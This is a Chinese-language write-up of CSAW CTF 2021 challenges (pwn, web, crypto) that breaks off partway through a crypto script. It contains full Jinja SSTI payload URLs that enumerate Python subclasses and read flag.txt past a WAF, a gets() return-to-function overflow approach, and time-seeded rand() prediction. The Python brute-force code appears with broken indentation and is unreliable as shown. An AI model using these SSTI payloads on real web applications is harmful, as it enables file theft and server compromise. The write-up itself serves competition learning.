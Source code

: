 # CSAW CTF 2021
## COMPASS-HED(HappyEveryDday)
Rank #90 over total 1216  
中国地区排名第一

比赛结束服务器立刻down了，所以部分题目只有完整思路没有exp  
### pwn
#### Alien Math 60pts
第一问，要回答rand()的值，因为没有设置种子，所以本地编译一个c文件看看rand()的第一个值是多少即可  
第二问是一个简单的逆向，根据程序的算法逐位爆破出输入
```python
def go(a1, s1) :
    a1 = list(str(a1))
    s1 = str(s1)
    for i in range(0, len(a1) - 1) :
        a1[i + 1] = chr((ord(a1[i + 1]) - 48 + g(ord(a1[i]), (i + ord(a1[i])))) % 10 + 48)
        r = ""
        for i in a1 :
r += i
if r[:len(s1)] == s1 :
    return True
else :
    return False

s = "7759406485255323229225"
index = 1
m = 0
for i in range(len(s)) :
    for j in range(10) :
        if go(m + j, int(s[:index])) :
            m = (m + j) * 10
            index = index + 1
            print(m)
            break
```
题目答对两题之后会有gets()的机会，题目没有canary，没有PIE，直接return to print_flag

#### haySTACK 290pts
题目需要猜测一个0-40000000的随机数，但是随机数的种子是整数的时间，所以本地编译一个同样逻辑的c程序，pwn时候读出链接服务器的时间戳（秒）做种子的随机数即可
### web
#### ninja 50pts
参数注入的几种尝试后发现是SSTI，但是有WAF过滤了很多字符  
构造出读出列表的os payload  
http://web.chal.csaw.io:5000/submit?value=
{{request[request.args.param1].mro()[-1][request.args.param2]()}}&param1=\_\_class\_\_&param2=\_\_subclasses\_\_  
修改后直接读flag:  
http://web.chal.csaw.io:5000/submit?value={{request[request.args.param1].mro()[-1][request.args.param2]().pop(40)(%27flag.txt%27).read()}}&param1=\_\_class\_\_&param2=\_\_subclasses\_\_
### crypto
#### Gotta Decrypt Them All 175pts
nc过去发现是摩尔斯码得到数字，斜杠分割转ascii做base64解码最后rot13得到正文，但是需要自动解若干组。  
```python
from pwn import *
import codecs


def rot13(s):
    chars = "abcdefghijklmnopqrstuvwxyz"
```